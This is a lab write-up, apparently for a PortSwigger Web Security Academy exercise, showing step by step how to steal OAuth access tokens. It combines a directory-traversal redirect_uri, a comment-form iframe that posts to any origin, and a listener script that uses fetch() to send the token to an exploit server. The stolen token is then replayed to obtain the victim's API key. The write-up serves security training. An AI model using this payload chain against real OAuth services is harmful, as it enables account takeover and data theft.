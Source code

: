 # Stealing OAuth access tokens via a proxy page

## Description

[This lab](https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-a-proxy-page) uses an `OAuth` service to allow users to log in with their social media account. Flawed validation by the `OAuth` service makes it possible for an attacker to leak access tokens to arbitrary pages on the client application. 

## Reproduction and proof of concept

1. Log in with `wiener:peter`. Study the `OAuth` flow while proxying traffic through Burp. Using the same method as in the previous lab, identify that the `redirect_uri` is vulnerable to directory traversal. This enables you to redirect access tokens to arbitrary pages on the blog website.

![Oauth](/_static/images/oauth18.png)

![Oauth](/_static/images/oauth19.png)

2. Using Burp, audit the other pages on the blog website. Observe that the comment form is included as an `iframe` on each blog post. 

![Oauth](/_static/images/oauth20.png)

Look closer at the `/post/comment/comment-form` page in Burp:

```text
<script>
    parent.postMessage({type: 'onload', data: window.location.href}, '*')
    function submitForm(form, ev) {
        ev.preventDefault();
        const formData = new FormData(document.getElementById("comment-form"));
        const hashParams = new URLSearchParams(window.location.hash.substr(1));
        const o = {};
        formData.forEach((v, k) => o[k] = v);
        hashParams.forEach((v, k) => o[k] = v);
        parent.postMessage({type: 'oncomment', content: o}, '*');
        form.reset();
    }
</script>
```
It uses the `postMessage()` method to send the `window.location.href` property to its parent window. Crucially, it allows messages to be posted to any origin (`*`).

3. From the proxy history, right-click on the `GET /auth?client_id=[...]` request and select **Copy URL**. 

```text
https://oauth-0a96005b04ff5f0ac04f571402a3005d.oauth-server.net/auth?client_id=i1venwl6rtpdzcwkm9or8&redirect_uri=https://0a1b0095040d5f81c0cc594500a900a1.web-security-academy.net/oauth-callback&response_type=token&nonce=1976758516&scope=openid%20profile%20email
```

4. Go to the exploit server and create an iframe in which the `src` attribute is the URL you just copied. Use directory traversal to change the `redirect_uri` so that it points to the comment form. The result should look something like this:

```text
<iframe src="https://oauth-0a96005b04ff5f0ac04f571402a3005d.oauth-server.net/auth?client_id=i1venwl6rtpdzcwkm9or8&redirect_uri=https://0a1b0095040d5f81c0cc594500a900a1.web-security-academy.net/oauth-callback/post/comment/comment-form&response_type=token&nonce=1976758516&scope=openid%20profile%20email"></iframe>
```

4. Below this, add a suitable script that will listen for web messages and output the contents somewhere. For example, you can use the following script to reveal the web message in the exploit server's access log:

```text
<script>
    window.addEventListener('message', function(e) {
        fetch("/" + encodeURIComponent(e.data.data))
    }, false)
</script>
```

5. To check the exploit is working, store it and then click **View exploit**. Make sure that the `iframe` loads then go to the exploit server's access log. There should be a request for which the path is the full URL of the comment form, along with a fragment containing the access token.
6. Go back to the exploit server and deliver this exploit to the victim. Copy their access token from the log. Make sure you don't accidentally include any of the surrounding URL-encoded characters.

![Oauth](/_static/images/oauth21.png)

7. Send the `GET /me` request to Burp Repeater. In Repeater, replace the token in the `Authorization: Bearer` header with the one you just copied and send the request. Observe that you have successfully made an API call to fetch the victim's data, including their API key.

![Oauth](/_static/images/oauth22.png)

8. Use the **Submit solution** button at the top of the lab page to submit the stolen key and solve the lab.

![Oauth](/_static/images/oauth23.png)

## Exploitability

An attacker will need to log in; and then identify a secondary vulnerability in the client application and use this as a proxy to steal an access token for the admin user's account; use the access token to obtain the admin's API key and submit the solution using the button provided in the lab banner.

The admin user will open anything you send from the exploit server, and they always have an active session with the `OAuth` service. 
